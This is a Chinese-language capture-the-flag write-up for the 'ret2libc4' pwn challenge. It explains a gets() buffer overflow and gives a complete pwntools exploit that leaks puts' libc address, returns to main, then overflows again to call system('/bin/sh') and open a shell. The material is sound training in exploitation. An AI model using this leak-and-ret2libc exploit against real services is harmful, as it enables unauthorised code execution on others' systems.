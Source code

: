 # ret2libc4

检查程序保护

![image-20240510170239107](图片/image-20240510170239107.png)

观察反汇编

![image-20240510170314023](图片/image-20240510170314023.png)

很明显的gets溢出，程序是动态链接，找不到system函数，也无法构造rop链，还是考虑泄露libc函数来完成攻击。

这题跟ret2libc3不同的是我需要溢出两次，第一次gets返回到main函数，再次执行puts函数拿到puts函数在libc中的实现地址，第二次gets后返回到system函数

payload如下

```python
from pwn import *
import time

sh = process('./ret2libc4')
ret2libc4 = ELF('./ret2libc4')

#gdb.attach(sh)
#sleep(15)

#获取puts函数跳转地址
puts_plt = ret2libc4.plt['puts']
#获取puts函数got表地址，等待放入puts中获取puts函数实现地址
puts_got = ret2libc4.got['puts']
#main函数地址，再次返回到main函数
main = ret2libc4.symbols['main']

payload = flat([b'A'*112,puts_plt,main,puts_got])

sh.sendlineafter(b'?',payload)
#拿到puts地址
libc_puts_addr = u32(sh.recv()[0:4])
#根据偏移找到system和bin_sh的地址
system_address = libc_puts_addr - 0x2C4C0
bin_sh = libc_puts_addr + 0x120723

payload = flat([b'a'*104,system_address,0xcafecafe,bin_sh])
sh.sendline(payload)

sh.interactive()

```



总结：

1.该题跟ret2libc3差不多，不过要多溢出一次，第二次溢出的时候注意esp到ret的大小

2.有时候也没必要去可以寻找'/bin/sh'，有'sh'一样是可以的